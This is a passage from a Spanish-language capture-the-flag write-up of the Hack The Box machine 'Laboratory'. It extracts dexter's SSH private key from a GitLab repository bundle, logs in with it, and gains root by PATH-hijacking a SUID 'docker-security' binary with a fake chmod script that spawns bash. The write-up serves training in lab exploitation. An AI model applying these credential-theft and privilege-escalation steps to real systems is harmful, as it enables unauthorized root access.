error: cannot run less: No such file or directory
commit 5bd1925e5f8ce5ab97c5eef8a1c2cac3c778873f (HEAD -> master, origin/master, origin/HEAD)
Author: Dexter McPherson <dexter@laboratory.htb>
Date:   Sun Jul 5 17:11:26 2020 +0200

    Initial commit
```

Bien, pues despues de ojear los archivos no tenemos nada relevante, solo confirmamos el correo de `dexter` :P

#### ¬ securedocker

```
* dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
```

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58$ ls -la
total 4
drwxr-xr-x 3 git git   80 Jan 31 22:45 .
drwxr-xr-x 3 git git   60 Jan 31 22:45 ..
drwxr-xr-x 2 git git   40 Jan 31 23:09 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
-rw-r--r-- 1 git git 3542 Jan 31 22:45 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
git@git:/dev/shm/test/repositories/@hashed/19/58$ git clone 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle 
Cloning into '19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7'...
Receiving objects: 100% (10/10), done.
git@git:/dev/shm/test/repositories/@hashed/19/58$ ls -la
total 4
drwxr-xr-x 3 git git   80 Jan 31 22:45 .
drwxr-xr-x 3 git git   60 Jan 31 22:45 ..
drwxr-xr-x 4 git git  120 Jan 31 23:09 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
-rw-r--r-- 1 git git 3542 Jan 31 22:45 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle

git@git:/dev/shm/test/repositories/@hashed/19/58$ cd 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ ls -la
total 8
drwxr-xr-x 4 git git 120 Jan 31 23:09 .
drwxr-xr-x 3 git git  80 Jan 31 22:45 ..
drwxr-xr-x 7 git git 240 Jan 31 23:09 .git
-rw-r--r-- 1 git git  37 Jan 31 23:09 README.md
-rw-r--r-- 1 git git 382 Jan 31 23:09 create_gitlab.sh
drwxr-xr-x 3 git git 100 Jan 31 23:09 dexter
```

En `create_gitlab.sh` tenemos la estructura del contenedor en el que estamos:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ cat create_gitlab.sh 
#!/bin/bash
mkdir /srv/gitlab
export GITLAB_HOME=/srv/gitlab
docker run --detach \
  --hostname git.laboratory.htb \
  --publish 60443:443 --publish 60080:80 --publish 60022:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  gitlab/gitlab-ce:latest
```

Si revisamos la carpeta `/dexter` obtenemos info muy valiosa:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ cd dexter/
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ ls -la
total 8
drwxr-xr-x 3 git git 100 Jan 31 23:09 .
drwxr-xr-x 4 git git 120 Jan 31 23:09 ..
drwxr-xr-x 2 git git  80 Jan 31 23:09 .ssh
-rw-r--r-- 1 git git 102 Jan 31 23:09 recipe.url
-rw-r--r-- 1 git git 160 Jan 31 23:09 todo.txt
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ ls -la .ssh/
total 8
drwxr-xr-x 2 git git   80 Jan 31 23:09 .
drwxr-xr-x 3 git git  100 Jan 31 23:09 ..
-rw-r--r-- 1 git git  568 Jan 31 23:09 authorized_keys
-rw-r--r-- 1 git git 2601 Jan 31 23:09 id_rsa
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat .ssh/id_rsa
```

![298bash_revshGIT_bundle_idRSA](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshGIT_bundle_idRSA.png)

> Las llaves de `SSH` siempre son generadas en pares con una llamada llave privada y otra llamada llave pública. La llave privada solo es conocida por el usuario y debe ser guardada con cuidado. [ArchLinux.org](https://wiki.archlinux.org/index.php/SSH_keys_(Espa%C3%B1ol)#Informacion_preliminar)

¿Pero por qué con "cuidado"?

Como bien dice [ehu.eus](https://www.ehu.eus/ehusfera/ghym/2010/10/15/identificacion-automatica-en-ssh-usando-claves-rsa/) en su web, "Cuando tenemos que conectarnos habitualmente a un servidor Linux mediante SSH puede resultar muy tedioso tener que escribir la contraseña en cada sesión." Por lo que muchas veces las llaves SSH nos "facilitan" la vida, donde la llave pública (`id_rsa.pub`) le indica a la máquina que nos permita ingresar sin contraseña, pero solo si estamos agregados (`id_rsa.pub`) en el archivo `authorized_keys`. 

Digamos que en este caso deberíamos estar en el archivo `/home/dexter/.ssh/authorized_keys`, para conectarnos como `dexter` en el sistema... En el caso de `root` si estuvieramos en su archivo (../../rutaXD), pues si, nos conectaríamos como `root`. (Pero a esto no le podemos sacar provecho en este momento).

Pero donde la llave `id_rsa` le indica al sistema que prácticamente estamos proveyendo una contraseña (aunque ni tengamos indicios de como sea) del usuario al que le extraimos la llave, en este caso `dexter`..

Muy bien, tenemos la llave de acceso al sistema (`id_rsa`) presuntamente como el usuario `dexter`, probemos:

La guardamos en un archivo, lo llamaré `id_dexter`, le otorgamos permisos: `chmod 600 id_dexter` y ejecutamos mediante `SSH`:

```bash
–» ssh dexter@10.10.10.216 -i id_dexter
dexter@laboratory:~$ id
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
dexter@laboratory:~$ ls
user.txt
dexter@laboratory:~$ 
```

Perfecto, estamos dentro como `dexter`... Nice, pero antes de seguir, revisemos si los archivos del repositorio tienen algo más:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat todo.txt
# DONE: Secure docker for regular users
### DONE: Automate docker security on startup
# TODO: Look into "docker compose"
# TODO: Permanently ban DeeDee from lab
```

Jmm, `look into "docker compose"` me llama la atención, no se si sea relevante, pero para tenerlo en cuenta (: El otro archivo tiene una URL:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat recipe.url 
[InternetShortcut]
URL=https://www.seriouseats.com/recipes/2016/04/french-omelette-cheese-recipe.html
```

Nada relevante. Enumeremos ahora como `dexter` dentro de la máquina...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Buscando por los archivos relacionados con el grupo `dexter` obtenemos esto:

```bash
dexter@laboratory:~$ find / -group dexter 2>/dev/null | grep -v proc
/usr/local/bin/docker-security
/home/dexter
/home/dexter/.local
/home/dexter/.local/share
/home/dexter/.local/share/nano
/home/dexter/.local/share/nano/search_history
/home/dexter/.profile
/home/dexter/.gnupg
/home/dexter/.gnupg/pubring.kbx
/home/dexter/.gnupg/trustdb.gpg
/home/dexter/.cache
/home/dexter/.cache/motd.legal-displayed
/home/dexter/.ssh
/home/dexter/user.txt
/home/dexter/.bashrc
/home/dexter/.bash_logout
dexter@laboratory:~$
```

* `/usr/local/bin/docker-security`.

Si vemos como está definido el archivo tenemos claro que debemos usarlo para escalar privilegios:

![298bash_revshDEX_dockerSec_lsLA](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshDEX_dockerSec_lsLA.png)

Tenemos un objeto creado por el usuario `root` y que cuando lo ejecutemos estaremos ejecutándolo como `root` no como `dexter` :O los famosos `SUID (Set User ID)`.

> SUID? ... it’s a way in UNIX-like operating systems of running a command as another user without providing credentials. [pentestpartners.com/exploiting-suid-executables](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/).

Perfectoooooo... Pero ejecutándolo no tenemos ningún output, jmmm, que tipo de archivo es?:

```bash
dexter@laboratory:~$ file /usr/local/bin/docker-security
/usr/local/bin/docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped
```

Un binario, inicialmente en internet no encontramos nada relacionado con él, probemos a ver si vemos alguna cadena de texto interesante. La herramienta `strings` no está instalada, intentemos con `cat`: 

```bash
dexter@laboratory:~$ cat /usr/local/bin/docker-security
ELF>p@9@8
...
...
H0zRx{UHH=H=]AWL=O,AVIAUIATAUH-@,SL)CHtLLDAHH9u[]A\A]A^A_chmod 700 /usr/bin/dockerchmod 660 /var/run/docker.sock<(X
    Rx
...
...
```

Vemos que presuntamente está cambiando los permisos de los archivos `/usr/bin/docker` y `/var/run/docker.sock`. También podemos verlo más claro con `ltrace` (nos ayuda a ver las llamadas que hace un programa sobre el sistema):

```bash
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                              = -1
setgid(0)                                                                                                              = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 256
+++ exited (status 0) +++
```

Acá está más claro (creo yo :P), intenta cambiar los permisos, pero no permite la acción... Pero hay algo curioso, está llamando a `docker` por su ruta absoluta (`/usr/bin/docker`) y al archivo `docker.sock` también por su ruta completa (`/var/run/docker.sock`), pero `chmod` está siendo llamado en general...

Lo que pasa ahí es que cuando ejecutamos `chmod`, el sistema va a buscar el binario en todas las rutas del **PATH** (`echo $PATH`), ira recorriendo cada directorio y donde primero lo encuentre, será ese el que ejecute... Sabiendo esto, podemos aprovecharnos para hacer un `PATH Hijacking`, en el que crearemos un archivo llamado `chmod`, en su contenido le indicamos que nos genere una `Shell`, modificaremos el **PATH** para que si o si encuentre primero nuestro binario y lo ejecute. Consiguiendo así una Shell como el usuario administrador del sistema (`root`). Prendámosle fuego:

* Más info sobre `PATH Hijacking`. - [hackingarticles.in/linux-privesc-using-path-variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

...

#### ¬ Creamos el archivo `chmod`

```bash
dexter@laboratory:/dev/shm$ echo '#!/bin/bash' > chmod
dexter@laboratory:/dev/shm$ which bash
/usr/bin/bash
#Con esta linea obtendremos una `bash`.
dexter@laboratory:/dev/shm$ echo '/usr/bin/bash' >> chmod 

#Otorgamos permisos de ejecución.
dexter@laboratory:/dev/shm$ chmod +x chmod 

#Validamos.
dexter@laboratory:/dev/shm$ cat chmod 
#!/bin/bash
/usr/bin/bash
dexter@laboratory:/dev/shm$ 
```

Si lo probamos con `dexter` pasaría esto:

```bash
dexter@laboratory:/dev/shm$ /bin/sh
$ ./chmod
dexter@laboratory:/dev/shm$ 
```

#### ¬ Modificamos la variable `PATH`.

```bash
dexter@laboratory:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin

#La guardamos en otra variable por si algo.
dexter@laboratory:/dev/shm$ old_path=$PATH

#Le indicamos donde esta nuestro binario, esa ruta quedara de primero, en mi caso `/dev/shm`.
dexter@laboratory:/dev/shm$ export PATH=/dev/shm:$PATH

#La nueva variable `PATH`.
dexter@laboratory:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:/dev/shm$
```

Perfecto, ahora simplemente nos quedaría ejecutar el binario `/usr/local/bin/docker-security`.

#### ¬ Ejecutar el `PATH Hijacking`.

![298bash_revshDEX_dockerSec_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshDEX_dockerSec_rootSH.png)

Opa, si señor, somos `root` ツ Solo nos quedaría ver las flags:

![298flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298flags.png)

...

Y hemos acabado paaaaaaaaaarce.e 

Me gusto la máquina, mientras veía como jugar con los archivos `.bundle` me pareció que eso si debe ser muy real, a mucha gente se le debe colar/olvidar/dar-igual el archivo `id_rsa`. Jajaj o pues espero que no :P

Me encanta hacer `PATH Hijacking` así que eso también me subió mucho más el ánimo por la máquina...

Esto es todo por ahora, muchas gracias por pasarte y leer y nada, a seguir rompiendo todo ♥
